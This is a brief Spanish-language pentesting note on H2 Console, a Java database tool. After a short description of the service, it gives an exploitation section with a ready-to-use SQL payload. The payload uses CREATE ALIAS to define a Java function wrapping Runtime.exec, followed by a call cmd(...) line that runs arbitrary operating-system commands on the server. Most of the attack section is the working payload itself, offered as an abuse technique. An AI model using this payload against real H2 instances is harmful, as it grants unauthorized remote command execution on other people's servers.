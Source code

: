 # H2 Console 

**H2 Console** es un sistema administrador de bases de datos relacionales porgramado en java. Puede ser incorporado en aplicaciones Java o ejecutarse de modo cliente-servidor. 

-----
# Explotación 

Puede ser interesante tener en cuenta a la hora de iniciar sesión en este servicio cambiar el path (Ya que en caso de estar en uso, puede tirarnos error de inicio de sesión siendo falso.)

![[possible_login_fix_h2_consoe.png]]
Ahora si, para abusar de este servicio web, podríamos inyectar la siguiente query SQL: 

```sql
CREATE ALIAS cmd AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
Una vez ejecutada la anterior sentencia, ahora podremos hacer uso de **cmd** como función para ejecutar comandos: 

```sql
call cmd('{command_to_execute}'); 
```


